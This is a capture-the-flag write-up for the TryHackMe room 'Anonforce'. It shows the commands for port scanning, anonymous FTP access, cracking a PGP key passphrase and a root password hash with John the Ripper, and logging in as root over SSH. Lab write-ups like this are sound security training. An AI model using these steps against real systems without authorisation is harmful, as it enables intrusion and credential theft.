 ```yaml
---
layout: post
title: "THM - Anonforce"
date: 2022-02-04
categories: [Tryhackme, Easy]
tags: [security]
image: ../../assets/img/posts/Anonforce/anonforce.png 

---
```


## Description

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

|**Room**|[Anonforce](https://tryhackme.com/room/bsidesgtanonforce)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a $IP
```

![rustscan](../../assets/img/posts/Anonforce/rustscan.png)

we get 2 open port. Lets scan this using nmap,

```bash
nmap -sV -sC -p21,22 $IP -oN nmap.txt
```

![nmap1](../../assets/img/posts/Anonforce/nmap1.png)
![nmap2](../../assets/img/posts/Anonforce/nmap2.png)
Result scan reveals that port 21 is running vsftpd with anonymous login and port 22 is running ssh service. Enumerate port 21.

Lets connect to ftp service,

```bash
ftp $IP
```

![ftp1](../../assets/img/posts/Anonforce/ftp1.png)
we got in.

Establishing directory content,

![ftp2](../../assets/img/posts/Anonforce/ftp2.png)

navigating to home directory and list directory content,

![ftp3](../../assets/img/posts/Anonforce/ftp3.png)

we got melodias user.

navigating to user directory and list directory content,

![ftp4](../../assets/img/posts/Anonforce/ftp4.png)

we got our user flag. But since we cannot read it, we can take this user.txt file on our system using `get`,

```bash
get user.txt
```

![ftp5](../../assets/img/posts/Anonforce/ftp5.png)

Now, there is also a **notread** directory in system directory as well, so taking a look inside directory reveals that there are 2 files backup.pgp file and private.asc,

![ftp6](../../assets/img/posts/Anonforce/ftp6.png)

We can get these files on our system,

```bash
get backup.pgp
get private.asc
```

We can convert this key into crack-able hash,

```bash
gpg2john private.asc > crackmejohn
```

Now using JTR, we can crack the hash,

```bash
john crackmejohn --wordlist=/usr/share/wordlists/rockyou.txt
```

![john](../../assets/img/posts/Anonforce/john.png)

we got our password, `*******`.

Now, we can import this private key so that we can decrypt the backup key,

```bash
gpg --import private.asc
```

![gpg](../../assets/img/posts/Anonforce/gpg.png)

Now, we can decrypt the backup.pgp file using the password we got,

```bash
gpg --output backup --decrypt backup.pgp
```

![gpg2](../../assets/img/posts/Anonforce/gpg2.png)

Reading the content of backup we just decrypted,

![hashes](../../assets/img/posts/Anonforce/hashes.png)

We got the password hash of root user.

Let's put this hash in a file,

```bash
echo "<hash-string>" > root_hash
```

Now, using JTR to crack this hash,

```bash
john root_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![john2](../../assets/img/posts/Anonforce/john2.png)

We can get into machine via ssh,

```bash
ssh root@$IP
```

![ssh](../../assets/img/posts/Anonforce/ssh.png)

we get in as root user.
